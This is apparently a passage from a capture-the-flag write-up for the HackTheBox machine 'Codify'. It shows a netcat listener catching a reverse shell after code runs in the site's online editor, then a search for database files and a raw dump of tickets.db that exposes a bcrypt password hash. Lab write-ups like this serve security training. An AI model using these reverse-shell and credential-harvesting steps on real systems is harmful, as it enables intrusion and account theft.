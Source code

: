 Then I open a Listening Port:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
```

Now I put the code in this page `http://codify.htb:3000/editor`, click `Run` and I have a Reverse Shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.140] from (UNKNOWN) [10.10.11.239] 33136
sh: 0: can't access tty; job control turned off
$ /bin/bash -i
bash: cannot set terminal process group (1261): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ whoami
whoami
svc
svc@codify:~$ 
```

## Lateral Movement

I search any database in the file system:
```
svc@codify:~$ find / -type f -name *.db 2>/dev/null 
find / -type f -name *.db 2>/dev/null
/var/www/contact/tickets.db
/var/lib/plocate/plocate.db
/var/lib/fwupd/pending.db
/var/lib/PackageKit/transactions.db
/var/lib/command-not-found/commands.db
/usr/lib/firmware/regulatory.db
```

I read this file `tickets.db`:
```
svc@codify:~$ cat /var/www/contact/tickets.db
cat /var/www/contact/tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��     tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!opensvc@codify:~$ 
```
